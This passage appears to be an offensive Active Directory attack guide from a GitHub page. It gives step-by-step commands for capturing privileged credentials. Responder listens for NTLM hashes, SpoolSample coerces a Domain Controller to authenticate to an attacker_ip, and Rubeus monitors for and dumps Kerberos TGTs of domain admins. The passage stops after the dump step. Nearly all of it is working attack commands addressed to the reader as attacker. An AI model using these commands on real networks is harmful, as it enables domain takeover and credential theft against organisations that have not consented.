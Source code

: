 ### Alternate Step-by-Step Workflow

#### 1. **Use SpoolSample to Trigger NTLM Authentication from a Domain Controller or Domain Admin**
The **SpoolSample** tool can be used to force a machine (such as a Domain Controller or another system with elevated privileges) to authenticate to an attacker-controlled system. This will help you capture **NTLM** hashes, which can be used to request Kerberos tickets later.

- **Set up an SMB listener** (using **Responder** or **Inveigh**) to capture NTLM hashes from a Domain Controller or high-privileged user:

   Example with **Responder**:
   ```bash
   python Responder.py -I eth0
   ```

- Use **SpoolSample** to force the target Domain Controller (or admin machine) to authenticate to your SMB listener:

   ```bash
   SpoolSample.exe <target_dc> <attacker_ip>
   ```

   - `<target_dc>`: IP or hostname of the Domain Controller or system you're targeting.
   - `<attacker_ip>`: IP address of your attacking machine where the SMB listener is running.

   **Result**: You should capture the **NTLM hash** of the privileged user (e.g., Domain Controller’s machine account or a domain admin’s account).

#### 2. **Use Rubeus to Monitor for TGT Tickets**
Now that you’ve potentially compromised a system where domain admins or high-privilege users may log in, you can use **Rubeus** to monitor for **Kerberos TGT tickets** passively.

- Run **Rubeus** in monitor mode on the compromised system to listen for new Kerberos tickets.

   Example command:
   ```powershell
   Rubeus.exe monitor /interval:5 /nowrap /filteruser:<target machine>
   ```

   - This command tells Rubeus to check for new tickets every 5 seconds. The `nowrap` option prevents output wrapping for easier reading.

   **Result**: Rubeus will passively monitor for Kerberos tickets that are created when users authenticate or log in to the system.

#### 3. **Use Rubeus to Dump and Extract the TGT**
Once **Rubeus** has captured a **TGT**, you can extract the ticket and inject it into your session.

- **Dump the captured TGT tickets**:

   ```powershell
   Rubeus.exe dump /nowrap
   ```

   - This will display the Kerberos tickets that were captured by Rubeus, including **TGTs** (Ticket Granting Tickets).
   - Look for the **TGT** of a high-privileged user, such as a **domain admin** or a **Domain Controller** machine account.
